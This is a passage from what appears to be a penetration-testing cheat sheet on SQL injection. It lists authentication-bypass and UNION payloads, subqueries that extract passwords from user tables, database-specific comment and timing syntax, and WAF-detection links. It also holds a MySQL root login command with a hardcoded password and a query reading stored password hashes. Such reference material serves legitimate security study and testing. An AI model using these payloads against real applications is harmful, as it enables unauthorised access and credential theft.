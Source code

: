 # Invent the first parameter, for example if only id=1, try id=567 union select...

</code></pre>
{% endtab %}

{% tab title="Auth Bypass" %}
```sql
' OR 1=1 -- // 
' OR 1=1; -- - 
admin'
' or 1=1 in (select @@version) -- // 
' OR 1=1 in (SELECT * FROM users) -- // 
' OR 1=1 in (SELECT password FROM users) -- // 
' OR 1=1 in (SELECT password FROM users where user = "admin") -- // 
```
{% endtab %}

{% tab title="Database" %}
{% code overflow="wrap" %}
```bash
/*! comment here */ --    # for MySQL
WAITFORDELAY              # MSSQL
UTL_INADDR......          # Oracle (search the whole command)/*! comment here */ --    // for MySQL
```
{% endcode %}
{% endtab %}

{% tab title="WAF" %}
| [https://github.com/EnableSecurity/wafw00f](https://github.com/EnableSecurity/wafw00f)                                                        |
| --------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://owasp.org/www-community/attacks/SQL\_Injection\_Bypassing\_WAF](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF) |
| [https://github.com/stamparm/identYwaf](https://github.com/stamparm/identYwaf)                                                                |
{% endtab %}

{% tab title="Resources" %}
{% embed url="https://suip.biz/?act=sqlmap" %}

{% embed url="https://github.com/stamparm/DSSS" %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
* If a field has more space to be displayed with SQLi and UNION for example, it is a logical spot for our future exploit's output.
* If anything of this is unclear, connect to a local database and practice/play around with these queries.
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```sql
# SQL injection in different parts of the query
Most SQL injection vulnerabilities occur within the WHERE clause of a SELECT query, but also:
    In UPDATE statements, within the updated values or the WHERE clause.
    In INSERT statements, within the inserted values.
    In SELECT statements, within the table or column name.
    In SELECT statements, within the ORDER BY clause.

# Subverting application logic
administrator'--

select system_user();
mysql -u root -p'root' -h 192.168.50.16 -P 3306
SELECT user, authentication_string FROM mysql.user WHERE user = 'admin';

```